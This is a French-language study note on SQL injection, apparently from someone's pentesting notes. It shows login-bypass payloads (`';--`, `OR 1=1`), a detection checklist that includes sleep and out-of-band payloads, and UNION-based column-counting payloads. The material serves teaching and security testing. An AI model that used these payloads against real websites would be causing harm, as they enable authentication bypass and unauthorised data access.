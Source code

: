 ```toc

```

Ressources :
- SQLi cheatsheet : https://portswigger.net/web-security/sql-injection/cheat-sheet


Lorsqu'une entrée utilisateur est incluse dans une requête SQL sans précaution, il est possible de détourner la requête SQL.

Requête normale et requête SQL associée : 
```sql
-- GET https://website/login?username=paul&password=123
SELECT user WHERE username='paul' AND password='123'
```
Requête malveillante (le mdp n'est pas vérifié) et requêtes SQL associées :
```sql
-- GET https://website/login?username=paul';--&password=osef
SELECT user WHERE username='paul';--'' AND password='osef'

-- GET https://website/login?username=paul&password=osef' OR 1=1
SELECT user WHERE username='paul' AND password='osef' OR 1=1
```

On commence par trouver un input vulnérable (en regardant les erreurs ou directement le résultat du serveur).
Tips : `;` termine une commande SQL, `--` met en commentaire la suite.


# Détecter une SQLi
Checklist à vérifier sur tous les inputs utilisateur (url, formulaire, ...):
- Mettre une apostrophe `'`
- `OR 1=1` et `OR 1=2` pour identifier des réponses différentes du serveur
- Des payloads entraînant un délai de traitement (`sleep`)
- Des payloads pour créer une connexion réseau sur un endpoint que l'on contrôle



# UNION based SQLi
## Déterminer le nombre de colonnes
Pour que l'UNION fonctionne il faut que les 2 côté de l'union ait le même nombre de colonnes (et que les données retournées dans chaque duo de colonnes soit du même type), sinon on aura une erreur.
Pour le déterminer, on procède itérativement :
```SQL
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

On peut obtenir le même résultat en faisant :
```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
```

